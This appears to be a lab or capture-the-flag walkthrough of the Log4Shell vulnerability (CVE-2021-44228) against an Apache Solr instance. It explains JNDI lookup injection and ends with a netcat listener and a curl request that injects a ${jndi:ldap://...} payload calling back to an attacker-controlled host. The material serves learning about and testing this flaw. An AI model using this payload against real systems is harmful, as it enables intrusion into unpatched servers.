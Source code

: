   ![image](https://user-images.githubusercontent.com/63194321/146547293-ac803ea3-3e95-4ade-bb1d-ed254a581775.png)

### Proof of Concept


From the log file above we can see that the vectors for the attack are `params` variables.

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files. 

Some examples:
* ${sys:os.name}
* ${sys:user.name}
* ${log4j:configParentLocation}
* ${ENV:PATH}
* ${ENV:HOSTNAME}
* ${java:version}

The usual format that can be exploited to attack the vulnerability is: `${jndi:ldap://ATTACKERCONTROLLEDHOST}`.
This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack.


This means that the user will continue to use a terminal that the attacker controls through the `LDAP` (Lightweight Directory Access Protocol).

**But there is a question where to enter the attack syntax?**
  
**The answer is: Anywhere that has data logged by the application.**

It is difficult to determine the attack surface of the vulnerability. So we will rely on the presence of log4j files in the system to determine.

Locations that can be used to inject payloads:
* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as , , or other customizable headers `User-Agent`, `X-Forwarded-For`
* Any place for user-supplied data

**To complete the questions in this section we can do the following:**

First we will define our ip address.
> ip addr show

![image](https://user-images.githubusercontent.com/63194321/146552665-28fec267-1e87-4a77-8ccb-e147a85457cd.png)

Next we will create a listener on port 4444.
> nc -lvnp 4444

![image](https://user-images.githubusercontent.com/63194321/146552783-9f4f25ba-cd82-4157-8d0a-b65862abd609.png)

Use `curl` to access the web page open on port 8983 with the path `path`.
> curl 'http://10.10.151.215:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:4444\}'
